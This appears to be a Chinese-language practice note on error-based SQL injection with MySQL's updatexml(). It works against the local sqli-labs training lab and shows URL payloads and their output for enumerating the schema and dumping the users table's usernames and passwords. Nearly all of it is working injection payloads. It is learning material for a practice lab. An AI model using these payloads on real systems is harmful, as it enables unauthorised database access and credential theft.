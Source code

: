 ```sql
# 字符型
select * from users where id='1' and updatexml(1,0x7e,1) #'

# 数字型
select * from users where id=1 and updatexml(1,0x7e,1)
```

### 查询数据库

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,database(),0x5e),1)
--->数据：~security^

select * from users where id=1 and updatexml(1,concat(0x7e,database(),0x5e),1)
select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x5e),1)
```

### 查询数据表名

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5e),1)
--->数据：~emails,referers,uagents,users^

select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5e),1)
```

### 查询字段名

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5e),1)
--->数据：~id,username,password^

select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5e),1)
select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(hex(column_name)) from information_schema.columns where table_schema=database() and table_name=0x7573657273),0x5e),1)
```

### 查询数据

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,mid((select group_concat(id,'---',username,'---',password) from security.users),1,31),0x5e),1)
~1---Dumb---Dumb,2---Angelina---
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,mid((select group_concat(id,'---',username,'---',password) from security.users),32,31),0x5e),1)
~I-kill-you,3---Dummy---p@ssword
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,mid((select group_concat(id,'---',username,'---',password) from security.users),63,31),0x5e),1)
~,4---secure---crappy,5---stupid
…………
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,mid((select group_concat(id,'---',username,'---',password) from security.users),250,31),0x5e),1)
~,14---admin4---admin4^




select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(id,'---',username,'---',password) from security.users),0x5e),1)
```